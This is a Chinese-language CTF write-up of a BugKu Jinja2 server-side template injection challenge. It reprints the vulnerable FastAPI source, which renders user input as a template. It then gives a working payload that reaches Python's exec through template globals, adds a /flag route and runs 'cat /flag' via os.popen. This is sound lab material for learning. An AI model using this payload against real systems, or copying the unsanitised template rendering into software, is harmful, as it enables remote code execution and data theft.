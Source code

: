 ### SSTI 添加路由

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/67b20193d0e0a243d4ffe29a.jpg)

打开网页给出了源代码

![](https://pic1.imgdb.cn/item/67b201f0d0e0a243d4ffe2a5.jpg)

首先肯定是格式化一下

```python
import os
import jinja2
import functools
import uvicorn
from fastapi import FastAPI
from fastapi.templating import Jinja2Templates
from anyio import fail_after
 
# jinja2==3.1.2
# uvicorn==0.30.5
# fastapi==0.112.0

# 这是一个装饰器，用于给被装饰的函数添加超时功能
# 它使用 anyio.fail_after 来在函数执行超过指定超时时间（默认 1 秒）时抛出异常
def timeout_after(timeout: int = 1):
    def decorator(func):
        @functools.wraps(func)
        async def wrapper(*args, **kwargs):
            with fail_after(timeout):
                return await func(*args, **kwargs)
        return wrapper
    return decorator

# 创建了 FastAPI 应用实例
app = FastAPI()
access = False

# 保存当前文件的目录，用于后续加载 Jinja2 模板
_base_path = os.path.dirname(os.path.abspath(__file__))

# t 初始化了 Jinja2Templates，用于从指定目录加载 Jinja2 模板
t = Jinja2Templates(directory=_base_path)

# 该路由会返回当前 Python 文件的内容（以文本形式）当通过 GET 请求访问 / 时
@app.get("/")
@timeout_after(1)
async def index():
    return open(__file__, 'r').read()

# 路由通过 GET 请求访问 /calc，并期望一个查询参数 calc_req
@app.get("/calc")
@timeout_after(1)
async def ssti(calc_req: str):
    global access
    if (any(char.isdigit() for char in calc_req)) or ("%" in calc_req) or not calc_req.isascii() or access:
        return "bad char"
    else:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(f"{{{{ {calc_req} }}}}").render(
            {"app": app})
        access = True
        return result  # 返回计算结果
    return "fight"
 
if __name__ == "__main__":
    uvicorn.run(app, host="127.0.0.1", port=8000)
```

第一个 "/" 路由没什么好说的

/calc 首先是检查 calc_req 是否包含数字、百分号、非 ASCII 字符，或者 access 是否已经被设置为 True

如果安全检查通过，这行代码将使用 Jinja2 模板引擎渲染 calc_req 参数

```
jinja2.Environment(loader=jinja2.BaseLoader())：创建一个新的Jinja2环境

from_string()：将 calc_req 作为模板字符串进行渲染

四个 { } 用于转义大括号使其不被解释为模板变量
```

构造 Payload 首先是 GET 请求：

```python
/calc?calc_req=config.__init__.__globals__['__builtins__']['exec']()

# config 对象包含了模板环境的配置
# __init__ 是一个包含模板环境全局变量的属性
# __globals__ 字典包含了全局变量
# 攻击者通过访问 __builtins__ 字典中的 exec 函数用于执行字符串形式的 Python 代码
```

```python
'app.add_api_route("/flag",lambda:__import__("os").popen("cat /flag").read());'

# app.add_api_route("/flag", lambda: ...) 添加一个新的路由 /flag
# 也可以使用 ['__builtins__'].eval()
# 也可以 modules['__main__'],'__file__','/flag' 直接修改模板目录
```

访问 /flag 拿到 flag

![](https://pic1.imgdb.cn/item/67b2a595d0e0a243d400148d.jpg)